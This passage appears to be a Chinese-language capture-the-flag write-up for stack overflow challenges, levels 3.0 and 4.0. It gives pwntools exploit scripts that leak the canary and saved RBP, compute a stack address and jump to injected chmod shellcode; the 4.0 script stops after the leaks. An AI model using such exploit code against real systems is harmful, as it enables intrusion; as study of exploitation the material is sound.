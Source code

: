 ```python
p = process(binary, env={})
```

为了避免环境变量影响，接下来的题目中均使用这种方式启动进程。

> 2.0 中如果清空环境变量，则 `sc_addr` 应设置为 `0x7fffffffdcb0`。

### 3.0

第一轮同时泄漏 canary 和 Saved RBP 地址，我们希望通过 Saved RBP 地址推导出栈上的输入地址。

观察可得：

- 第一次 challenge 输入地址 - 第二次 challenge 输入地址 = 0xd0

- Saved RBP 地址 - 输入地址 = 0x10c0

由此可以算出：

第二次 challenge 输入地址 = 第一次 challenge 输入地址 - 0xd0 = （第一次 Saved RBP 地址 - 0x10c0）- 0xd0

```python
# chmod("a", 4)
sc = """
mov al, 0x5a  # chmod
push 0x61     # "a"
mov rdi, rsp  # rdi -> "a" on stack
mov sil, 4    # 4 -> 000 000 100
syscall
"""

payload = b'REPEATaa' + b'a'*0x70 + b'\x01'
s(payload)
ru(b'\x01')
canary = u64(b'\x00' + r(7))
leak('canary', canary)
saved_rbp = u64(r(6).ljust(8, b'\x00'))
leak('saved rbp', saved_rbp)

chall1_buf = (saved_rbp - 0x10c0)
chall2_buf = chall1_buf - 0xd0
leak('sc addr', chall2_buf)
payload = asm(sc).ljust(0x78, b'a') + p64(canary) + b'a'*8 + p64(chall2_buf)
s(payload)
```

### 4.0

在 3.0 基础上对 canary 前的一个值有要求。

```python
# chmod("a", 4)
sc = """
mov al, 0x5a  # chmod
push 0x61     # "a"
mov rdi, rsp  # rdi -> "a" on stack
mov sil, 4    # 4 -> 000 000 100
syscall
"""
val = 0x68EDE977CB04B929

payload = b'REPEATaa' + b'a'*0x80 + b'\x01'
s(payload)
ru(b'\x01')
canary = u64(b'\x00' + r(7))
leak('canary', canary)
saved_rbp = u64(r(6).ljust(8, b'\x00'))
leak('saved rbp', saved_rbp)
```